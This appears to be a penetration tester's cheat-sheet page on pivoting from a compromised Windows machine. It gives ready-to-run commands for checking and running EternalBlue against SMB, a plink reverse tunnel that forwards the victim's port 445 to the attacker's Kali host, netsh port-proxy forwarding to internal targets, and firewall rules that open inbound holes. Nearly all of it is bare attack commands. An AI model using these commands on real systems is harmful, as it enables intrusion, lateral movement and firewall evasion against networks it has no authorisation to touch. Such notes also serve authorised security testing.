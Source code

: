 ```bash
# ETERNAL BLUE (OPEN INTERNAL PORT WITH PLINK)
After using plink and get the port 445 open, we can use AutoBlue > checker to check if the target is vulnerable
python eternalblue_checker.py 127.0.0.1
Finally, zzz_exploit


# It can turn a port say TCP 445 on a compromised Windows machine to one on your Kali machine. So if  you somehow have SMB login admin creds but unable to connect to 445 on  the Windows machine because a firewall is blocking 445 from external  IPs, you can forward that port to your own local machine.
C:\>plink.exe -l root -pw myKaliPW $KALI_IP -R 445:127.0.0.1:445
#It doesn’t have to be 445, but smbexec.py doesn’t allow other ports than 139, 445. Once plink is running that shell becomes uselss; open up another shell beforehand. Run an nmap scan to check if the forwarding is successful.
nmap -Pn -n -sV -p 445 --script=smb-os-discovery 127.0.0.1
# Now you can run smbexec, psexec or wmiexec.py.

# REVERSE PORT FORWARDING WITH OUR KEYS ON WINDOWS
sudo apt install putty-tools
ssh-keygen
puttygen KEYFILE -o OUTPUT_KEY.ppk
# The resulting .ppk file can then be transferred to the Windows target and used
```
{% endcode %}

## Netsh (Windows)

{% code overflow="wrap" %}
```bash
# netsh (needs admin rights on Windows so we might need UAC bypass to use it)
# Port forwarding (listenaddress is compromised IP, connect address is the internal target we want to access from the Windows_compromised_machine)
C:\>netsh interface portproxy add v4tov4 listenport=4444 listenaddress=192.168.8.22 connectport=22 connectaddress=10.2.30.120
# Check it was correctly created
C:\> netstat -anp TCP | find "4444"
C:\> netsh interface portproxy show all
kali@kali:~$ sudo nmap -sS 192.168.8.22 -Pn -n -p2222
# If the result is a filtered port, FW is acting so we need a hole there (allow inbound connection to that listening port)
C:\> netsh advfirewall firewall add rule name="pfwd_ssh_4444" protocol=TCP dir=in localip=192.168.8.22 localport=4444 action=allow
# Port should be open now from the outside and we could use SSH
kali@kali:~$ ssh user@192.168.8.22 -p 4444
# WHEN FINISHED, DO NOT FORGET TO REMOVE THE HOLE (FW RULE)
C:\> netsh advfirewall firewall delete rule name="pfwd_ssh_4444"
# We could also remove the port fwd
C:\> netsh interface portproxy del v4tov4 listenport=4444 listenaddress=192.168.8.22




# OPEN A PORT ON THE WINDOWS FIREWALL TO ALLOW A FORWARD CONNECTION
netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT

# REQUIREMENTS:
# - SYSTEM
# - IP HELPER SERVICE RUNNING
# - IPV6 SUPPORT ENABLED

# LISTENING (WINDOWS MACHINE COMPROMISED), CONNECT (MACHINE ON SUBNET TO BE REACHED)
```